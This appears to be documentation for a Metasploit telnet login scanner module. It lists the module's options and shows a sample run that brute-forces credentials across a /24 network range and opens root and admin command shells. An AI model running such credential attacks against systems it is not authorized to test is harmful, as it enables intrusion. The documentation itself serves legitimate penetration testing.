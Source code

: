 ## Description
This module will test a telnet login with a list of provided credentials on a range of machines and report successful logins.

## Verification Steps

1. Do: ```use auxiliary/scanner/telnet/telnet_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [NUMBER OF THREADS]```
4. Do: ```set USER_FILE [USERNAME FILE]```
5. Do: ```set PASS_FILE [PASSWORD FILE]```
6. Do: ```run```

## Options


### BLANK PASSWORD 

When set to `true`, it'll bruteforce with blank passwords for all users. Default value is `false`.

### USERNAME

Only one username to authenticate with.

### PASSWORD

Only one password to authenticate with. 

### USERPASS_FILE 

File containing username and passwords separated by space, one pair one line.

### USER_FILE

File containing usernames one per line.

### PASS_FILE

File containing passwords one per line.


## Scenarios 

In this scan we have provided list of username and passwords files separately. 

```
msf > use use auxiliary/scanner/telnet/telnet_login
msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 1.1.1.0/24
RHOSTS => 1.1.1.0/24
msf auxiliary(scanner/telnet/telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(scanner/telnet/telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(scanner/telnet/telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(scanner/telnet/telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(scanner/telnet/telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(scanner/telnet/telnet_login) >run

[+] 1.1.1.116 - SUCCESSFUL LOGIN root : s00p3rs3ckret
[*] Command shell session 1 opened (1.1.1.101:50017 -> 1.1.1.116:23) at 2010-10-08 06:48:27 -0600
[+] 1.1.1.116 - SUCCESSFUL LOGIN admin : s00p3rs3ckret
[*] Command shell session 2 opened (1.1.1.101:41828 -> 1.1.1.116:23) at 2010-10-08 06:48:28 -0600
[*] Scanned 243 of 256 hosts (094% complete)
[+] 1.1.1.56 - SUCCESSFUL LOGIN msfadmin : msfadmin
[*] Command shell session 3 opened (1.1.1.101:49210 -> 1.1.1.56:23) at 2010-10-08 06:49:07 -0600
[*] Scanned 248 of 256 hosts (096% complete)
[*] Scanned 250 of 256 hosts (097% complete)
[*] Scanned 255 of 256 hosts (099% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/telnet/telnet_login) >
```
